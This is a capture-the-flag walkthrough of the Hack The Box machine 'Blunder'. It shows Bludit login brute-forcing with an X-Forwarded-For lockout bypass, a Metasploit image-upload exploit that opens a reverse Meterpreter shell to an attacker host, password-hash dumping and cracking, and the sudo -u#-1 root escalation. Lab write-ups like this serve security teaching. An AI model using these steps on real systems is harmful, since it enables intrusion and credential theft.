

# Blunder

<table>
    <tr>
    <td style="text-align:right;"><b>OS</b></td>
    <td>Linux</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Difficulty</b></td>
    <td>Easy</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Points</b></td>
    <td>20</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>Release</b></td>
    <td>30 May 2020</td>
    </tr>
    <tr>
    <td style="text-align:right;"><b>IP</b></td>
    <td>10.10.10.191</td>
    </tr>
</table>

## Summary

This machine involves finding a hidden login page for Bludit and requires a decent bit of enumeration to find credentials. We use an exploit with these credentials to get a shell on the box and ultimately take advantage of misconfigured sudo privileges in order to escalate to root.

## Foothold

To begin, we will add the entry `10.10.10.191 blunder.htb` to `/etc/hosts` and then start scanning.

```
# nmap -sC -sV -T4 blunder.htb 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-31 11:13 EDT
Nmap scan report for blunder.htb (10.10.10.191)
Host is up (0.21s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
```

From this, we see that FTP is closed and HTTP is open. An additional port scan of all ports revealed nothing else. We'll start by enumerating the web server at http://blunder.htb.


We see a simple website with random facts. The about page appears to be a default page and has nothing of interesting. From here we will do some more enumeration. We'll start by attempting directory busting.

```
# dirb http://blunder.htb -r /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun May 31 17:28:45 2020
URL_BASE: http://blunder.htb/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://blunder.htb/ ----
+ http://blunder.htb/0 (CODE:200|SIZE:7562)                                             
+ http://blunder.htb/about (CODE:200|SIZE:3281)                                         
==> DIRECTORY: http://blunder.htb/admin/                                                
+ http://blunder.htb/cgi-bin/ (CODE:301|SIZE:0)                                         
+ http://blunder.htb/LICENSE (CODE:200|SIZE:1083)                                       
+ http://blunder.htb/robots.txt (CODE:200|SIZE:22)                                      
+ http://blunder.htb/server-status (CODE:403|SIZE:276)                                  
```

We see that there is an admin directory so we will browse to it.



It's actually not a directory and is a page itself, which is due to some sort of configuration in the `.htaccess` file. If we look at the source code for the page, we can see what version of this service is running.

```html
<!-- Favicon -->
<link rel="shortcut icon" type="image/x-icon" href="/bl-kernel/img/favicon.png?version=3.9.2">
```

Instantly, from the top of the page, we see that this is likely version 3.9.2. Now, we can search to see if there are any exploits available for this version using `searchsploit`.

```
# searchsploit bludit
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload (Metasploit)                       | php/remote/47699.rb
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                 | php/webapps/46060.txt
---------------------------------------------------------------------------------- ---------------------------------
```

Looking more closely at the source for the first exploit, we see that we can achieve remote code execution and it was tested on our exact version. Along with it being rated "excellent", this seems like the perfect candidate to get a shell on the machine. The only problem is that it is an authenticated exploit so we need some credentials. We will have to go back to enumeration for now.

We'll go back to the website and try to fuzz for any other files. Since the admin page is a Bludit installation, it's unlikely that there's any extra files there so we'll search from the main page. After searching with different wordlists and file extensions, we get a hit.

```
# wfuzz -c --hc 403,404 -w /usr/share/wordlists/dirb/common.txt http://blunder.htb/FUZZ.txt

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://blunder.htb/FUZZ.txt
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                            
===================================================================

000003435:   200        1 L      4 W      22 Ch       "robots"                                           
000004079:   200        4 L      23 W     118 Ch      "todo" 
```

The `robots.txt` is not very interesting but the `todo.txt` file has a good piece of information:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

With this, we've got a leaked username, `fergus`. We can try to brute force the password but after several seconds we would actually be locked out. After searching online, there is a [way around this](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) via another CVE.

By manipulating the `X-Forwarded-For` value in the header of our request to something random, we can bypass the IP address checking from Bludit and all of this is compatible with the version we have here. The article also provides a nice PoC that we can modify for our own uses.

If we try to brute force our way in with a wordlist like `rockyou.txt`, for example, this would take way too long. We need to create our own custom and small wordlist for this job. For this, we can use `cewl` which will scrape all the words from a page and create a wordlist from it.

```
# cewl http://blunder.htb -w wordlist.txt
```

With this custom wordlist, we can now try to log in to the page in hopefully much quicker time.

```
# python3 brute.py
...
[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

Now that we have some valid credentials, we can use our authenticated exploit to get a shell on the machine. From there, we'll drop down to a simple shell and begin more enumeration to get to a user.

```
msf5 > use exploit/linux/http/bludit_upload_images_exec 
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS blunder.htb
RHOSTS => blunder.htb
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.142:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading pacJxphAkU.png...
[*] Uploading .htaccess...
[*] Executing pacJxphAkU.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.142:4444 -> 10.10.10.191:42570) at 2020-05-31 17:48:48 -0400
[+] Deleted .htaccess

meterpreter > shell
Process 4354 created.
Channel 0 created.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

## User

The first thing to check is where Bludit stores its credentials because there might be more there. They are stored in `bl-content/databases/users.php`.

```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
...
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
...
    },
    "fergus": {
...
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
...
    }
}
```

We find some hashed and salted credentials (including the one we have) but are not able to crack these with a password cracker. After enumerating some more, we can see that there is a preview version of Bludit on the machine as well. We will look at the same file to see if there are any differences there.

```
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
...
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
...
    }
}
```

We see a hashed and non-salted password for a user named `Hugo`. We can easily crack this with online database and get the password `Password120`. `Hugo` is a user on the machine as well so we can switch over to them and get the flag.

```
www-data@blunder:/$ su hugo
su hugo
Password: Password120

hugo@blunder:/$ cd
cd
hugo@blunder:~$ cat user.txt
cat user.txt
c5af0d**************************
```

## Root

In order to escalate to root, we can do some very basic enumeration.

```
hugo@blunder:~$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

With this, we see that `hugo` can run bash on the system as any user *except root*. Luckily, this is trivial to bypass. We can get around this, change to root, and get the flag.

```
hugo@blunder:~$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash
root@blunder:/home/hugo# cat /root/root.txt
cat /root/root.txt
0bcf34**************************
```
